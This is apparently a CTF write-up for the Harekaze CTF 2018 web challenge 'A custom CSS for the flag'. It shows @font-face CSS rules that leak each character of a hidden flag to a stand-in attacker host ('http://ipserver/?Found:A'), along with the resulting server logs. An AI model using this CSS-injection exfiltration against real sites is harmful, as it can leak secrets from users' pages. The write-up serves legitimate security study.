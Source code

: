 ```yaml
---
layout: post
title:  "Harekaze CTF 2018 - A custom CSS for the flag"
date:   2018-02-11 22:00
categories: [HarekazeCTF2018]
tags: [Web]
author: jbz
---
```


Let’s decorate with fashionable CSS in this [site](http://problem.harekaze.com:10003/).

It's a 250 points **web** challenge.
Let's start, this is the home page:

![HomePage](https://raw.githubusercontent.com/jbzteam/CTF/master/HarekazeCTF2018/homepage.png)

As you can see there are some explanations and the source code of the application in the **server.js** [file](https://github.com/jbzteam/CTF/blob/master/HarekazeCTF2018/server.js).  

Thanks to the code we know that it's a node.js server, that has two distinct applications using the express framework. The first application (app) uses Chromium to visit the page served by the second application (app2). 

This page is simple, it has a div with `id=flag` containing the flag and a link pointing to an external css file. This css file is provided by us through the form in the main page.

This is the snippet showing the page structure.
```javascript
    res.send(`<html>
    <link rel="stylesheet" href="${encodeURI(req.query.css)}" />
    <body>
        <div id="flag">
                HarekazeCTF{${fs.readFileSync("flag.txt")}}
        </div>
    </body>
    </html>`);
```

The only part of the page controlled by us is the CSS file, so we need a method to exfiltrate data with CSS.  
Is it possible? YES!

Googling around in order to find a way to exfiltrate data we found a CSS file that uses the @font-face css properties in an interesting way.

For each letter it defines an external font url:
```css
@font-face{
    font-family:'Capital-A';
    src:url('http://ipserver/?Found:A');
    unicode-range:U+0041;
}
@font-face{
    font-family:'Capital-B';
    src:url('http://ipserver/?Found:B');
    unicode-range:U+0042;
}
@font-face{
    font-family:'Capital-C';
    src:url('http://ipserver/?Found:C');
    unicode-range:U+0043;
}
```
... and so on.  
We have to edit this file in order to include the symbols `{}-_` according to the information provided by the chall:  
_"The flag format is the two CSS3 properties connected by a underscore (_).

Example: HarekazeCTF{background-image_font-size}"_

Now the most important part about our CSS file is:
```css
#flag{
    font-family:'Capital-A','Capital-B','Capital-C' ... 
}
```

What the does CSS file do?  
It defines an external font for each letter or symbol, and when the letter is present in the div having `id=flag`, it loads that external font.  
Providing an URL for the font controlled by us we can see which letters compose the flag.

Keep in mind that we can only check whether a letter exists and not the amount of occurrncies.  
Next step is to upload the CSS file on a server managed by us, and to provide the URL to the page in order to have Chromium visiting it.  
Let's take a look at the log files to see which letters and symbols were found.
```
163.43.29.129 - - [10/Feb/2018:21:17:16 +0100] "GET /?Found:F HTTP/1.1" 200 466 "http://x.x.x.x/ctf.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/64.0.3282.119 Safari/537.36"
163.43.29.129 - - [10/Feb/2018:21:17:16 +0100] "GET /?Found:C HTTP/1.1" 200 466 "http://x.x.x.x/ctf.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/64.0.3282.119 Safari/537.36"
163.43.29.129 - - [10/Feb/2018:21:17:16 +0100] "GET /?Found:H HTTP/1.1" 200 466 "http://x.x.x.x/ctf.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/64.0.3282.119 Safari/537.36"
163.43.29.129 - - [10/Feb/2018:21:17:16 +0100] "GET /?Found:d HTTP/1.1" 200 465 "http://x.x.x.x/ctf.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/64.0.3282.119 Safari/537.36"
...
```
Parsing the log, this is the list:
```
Found:F 
Found:C 
Found:H 
Found:d 
Found:e 
Found:k 
Found:T 
Found:b 
Found:a 
Found:o 
Found:z 
Found:{ 
Found:m 
Found:t 
Found:- 
Found:f
Found:r 
Found:l 
Found:i 
Found:n 
Found:s 
Found:u 
Found:_ 
Found:c 
Found:} 
```

How to find the 2 css properties with these letters? Let's check the CSS properties one by one to see which ones have the corrisponding letters.  

Could we use Python, C, or GO? Yes, but we prefer the quick and dirty `grep` and `awk`!

```bash
| grep -v $'g|h|j|p|q|w|x|y' | awk '/d/ && /b/ && /o/ && /m/ && /t/ && /f/ && /l/ && /i/ && /n/ && /s/ && /u/ {print;}' | wc -l

|grep -v 'g' |grep -v 'h' |grep -v 'j'  |grep -v 'p' |grep -v 'q' |grep -v 'w' |grep -v 'x' |grep -v 'y'  |grep 'd'  |grep 'b'  |grep 'o'  |grep 'm' |grep 't' |grep 'f' |grep 'l'  |grep 'i' |grep 'n' |grep 's' |grep 'u'
```
So we are given a list of some possible flags:
```
HarekazeCTF{animation-direction_border-bottom-left-radius}
HarekazeCTF{animation-iteration-count_border-bottom-left-radius}
HarekazeCTF{border-bottom-color_outline-offset}
HarekazeCTF{border-bottom-left-radius_animation-direction}
HarekazeCTF{border-bottom-left-radius_animation-iteration-count}
HarekazeCTF{border-bottom-left-radius_column-count}
HarekazeCTF{border-bottom-left-radius_column-fill}
HarekazeCTF{border-bottom-left-radius_column-rule}
HarekazeCTF{border-bottom-left-radius_column-rule-color}
HarekazeCTF{border-bottom-left-radius_columns}
HarekazeCTF{border-bottom-left-radius_content}
HarekazeCTF{border-bottom-left-radius_counter-increment}
HarekazeCTF{border-bottom-left-radius_counter-reset}
HarekazeCTF{border-bottom-left-radius_direction}
HarekazeCTF{border-bottom-left-radius_outline-color}
HarekazeCTF{border-bottom-left-radius_unicode-bidi}
HarekazeCTF{column-count_border-bottom-left-radius}
HarekazeCTF{column-fill_border-bottom-left-radius}
HarekazeCTF{column-rule_border-bottom-left-radius}
HarekazeCTF{column-rule-color_border-bottom-left-radius}
HarekazeCTF{columns_border-bottom-left-radius}
HarekazeCTF{content_border-bottom-left-radius}
HarekazeCTF{counter-increment_border-bottom-left-radius}
HarekazeCTF{counter-reset_border-bottom-left-radius}
HarekazeCTF{direction_border-bottom-left-radius}
HarekazeCTF{outline-color_border-bottom-left-radius}
HarekazeCTF{outline-offset_border-bottom-color}
HarekazeCTF{unicode-bidi_border-bottom-left-radius}
```
We had to try it one by one, but we followed our heart and, since one of us said that the flag should've started with `border-bottom`, we got really lucky and found it on the 5th attempt:
```
HarekazeCTF{border-bottom-left-radius_animation-direction}
```

Bonus: [a python script](https://github.com/jbzteam/CTF/blob/master/HarekazeCTF2018/css.py) to get the possible flag instead of dirty grep hacks